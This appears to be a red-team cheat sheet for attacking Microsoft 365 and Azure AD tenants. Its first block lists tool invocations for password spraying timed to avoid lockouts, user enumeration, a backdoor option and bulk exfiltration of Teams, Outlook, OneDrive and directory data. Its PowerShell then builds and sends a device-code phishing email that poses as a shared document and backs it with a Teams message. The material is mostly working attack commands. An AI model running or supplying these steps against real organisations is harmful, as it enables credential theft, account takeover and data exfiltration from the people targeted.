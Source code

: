 ### Examples
```powershell
--outpath C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --spray --sleep-min 120 --sleep-max 200 --push
--outpath C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --spray --push-locked --months-only --exclude C:\Clients\2021\FooBar\Exclude_Emails.txt
--outpath C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --spray --passwords Passwords.txt --time-window 13:00-22:00
--outpath C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --exfil --all
--outpath C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --exfil --aad
--outpath C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --exfil --teams --owa --owa-limit 5000
--outpath C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --debug --exfil --onedrive
--outpath C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --enum --validate-teams
--outpath C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --enum --validate-msol --usernames emails.txt
--outpath C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --backdoor
--outpath C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --database
```

## Internal Phishing

### Phish an IT Admin for PrivEsc
### Device Code Email w/ Teams Message to Back it 
### Customize the message
```powershell
Clear-Token
RefreshTo-SubstrateToken
Get-AADIntAccessTokenFor Graph -SaveToCache
$tenant = "shrine.cloud"
$code = ""
$op = "Sharproot Electrical"
$target = 'derf@shrine.cloud'

$msg = "<div>Hi!<br/>This is a message sent to you by <a href='https://microsoft.com/devicelogin'>$op</a>. <br/><br/>Here is  <a href='{1}'>your doument</a> you <b></b>.<br/><br/> Provide the following code when requested: <b>$code</b>.</div>"
$subject = "$op has shared a document with you"
```

### Send the Phishing Email
```powershell
Send-AADIntOutlookMessage -AccessToken $OutlookToken.access_token -Recipient $target -Subject $subject -Message $msg
```

### Send Teams message support your email
```powershell
RefreshTo-MSTeamsToken -domain $tenant -refreshToken $response.refresh_token
$MSTeamsToken.access_Token

Send-AADIntTeamsMessage -AccessToken $MSTeamsToken.access_Token -Recipients $target -Message "Just sent you an email, look what $op offered!!"
```
